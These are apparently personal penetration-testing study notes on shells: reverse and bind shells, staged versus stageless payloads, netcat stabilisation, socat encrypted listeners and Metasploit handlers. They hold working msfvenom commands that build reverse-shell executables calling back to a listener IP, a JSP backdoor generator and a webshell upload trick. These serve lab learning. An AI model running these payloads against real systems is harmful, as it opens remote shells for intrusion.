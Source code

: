 Shells

**Reverse shell and Bind shell**



![reverse shell.png](../_resources/fa427da2aae54bbda729a76c7eee9b3f.png)


![bind shell.png](../_resources/733eb396c4b74ba6923e014a47b4af15.png)




**Staged and Non Staged Payload**
### Non Staged:
1. Sends exploit all at once
2. Larger in size wont work always
3. Ex: windows/meterpreter_reverse_tcp,netcat,socat.
**(_) is used to show its stageless**
payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
### Staged:
1. Sends payload in stages.
2. Can be less stable.
3. Ex: windows/meterpreter/reverse_tcp
> in two parts first is stager and then it downloads the payload from listerner.

Stager - executed directly on the server itself. It connects back to a waiting listener, but doesnt actually contain any reverse shell code by itsself. Instead it connects to the listener and downloads the actual payload. Thus the payload is split into the parts-- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit `multi/handler`, which will be covered in the next task



**What is a Shell?**
>CLI environment is shell
>powershell, cmd.exe for windows
>bash, sh, zsh,etc for linux

Variety of tools in common
1. Netcat
>Swiss army knife.
>Manually performed all kinds of network interactions, like banner grabbing,reverse shell,bind shells.
2. Socat
>Socat is netcat on steroids.
>Syntax is difficult.
>Netcat is by default but Socat is raely installed.
>socat also provides you to get encrypted reverse shell
4. Metasploit -- multi/handler
>`auxiliary/multi/handler` module of metasploit used as netcat or socat to recieve reverse shells.
>Only way to to interact with meterpreter shells.
>provides way to handle staged payloads.
6. Msfvenom
> Used to generate payloads and part of metasploit 
> Can generate payloads other than reverse shell and bind shell
8. Pwncat (JohnHammod)
> Advance stable netcat option which is bascially red team tool
> gives you addition features of priv escallation,download,upload,etc
10. Pwncat (cytopia)
> similar to John's tool but more advance

# Resources

[High on coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
[pentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[SecLists](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


# Types of Shells

There are 2 types of shells

**1. Reverse Shell**
![reverse shell.png](../_resources/fa427da2aae54bbda729a76c7eee9b3f.png)
**2. Bind Shell**
![bind shell.png](../_resources/733eb396c4b74ba6923e014a47b4af15.png)

## Interactivity
1. Interactive
>ssh



![i.png](../_resources/2d03ef8dec844f39957717ce187ee0c4.png)


3. Non-Interactive
>netcat



![ni.png](../_resources/ac9e2b1c4cec43dd90dfa194bc16fae0.png)



# Netcat shell Stabilisation
**1. Method one: Python**
Step 1: `python -c 'import pty;pty.spawn("/bin/bash")'`
uses python spawn feature bash shell.
Step 2: `export TERM=xterm`
this gives us the term commands like: `clear`
Step 3: Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 


![nc.png](../_resources/1aa3d3644b194960a3134ed10fbde34c.png)


**2. Method two**
`rlwrap`
`rlwrap nc -nvlp 1337`
**3. Method three**
`socat`
**4. Method four**
`source env/bin/activate`
`pwncat --listen -p 4444`
**5. Method five**
`bash -i`

# Socat encrypted shell



![enc.png](../_resources/63b3799c25a14748ade6495d7f1483ca.png)


syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
```socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```



# Common shell payloads
`/usr/share/windows-resources/binaries`
here you will get all the useful binaries like: nc.exe,plink.exe,etc
# Msfvenom 
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

*Payload Naming Conventions*
`<OS>/<arch>/<payload>`
*Example*
`linux/x86/shell_reverse_tcp`

*List all the payloads*
`msfvenom --list payloads| grep "linux/x86/meterpreter"`


# Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell. (to-do)



![netcat.png](../_resources/ef37878c124e4b739b508f8f28aa76f5.png)


**You have to do these questions**


Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

>as _ once are stageless 

`linux/x64/meterpreter/reverse_tcp`                   Inject the mettle server payload (staged). Connect back to the attacker
    `linux/x64/meterpreter_reverse_tcp`                   Run the Meterpreter / Mettle server payload (stageless)
	
`windows/x64/powershell_reverse_tcp`                  Listen for a connection and spawn an interactive powershell session
`windows/x64/meterpreter/reverse_tcp`                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Connect back to the attacker (Windows x64)
`windows/x64/meterpreter_reverse_tcp`                 Connect back to attacker and spawn a Meterpreter shell

Command:
`msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -o shell-stageless.exe LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf  -o shell-stageless LHOST=10.8.95.162 LPORT=1337`

****Last answer:** no meterpreter doesnt work with netcat**


# FTP to Shell
so in this one if you have anonymous access to the ftp server then upload a shell and then go to `ftp://ip/shell.php` the open your nc listener and BOOM!!! 

[Shell Upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)


## Tips and Tricks
1. Java reverse shell 
`msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`

**?cmd=id**
1. echo the shell 
2. Download the shell
3. upload it.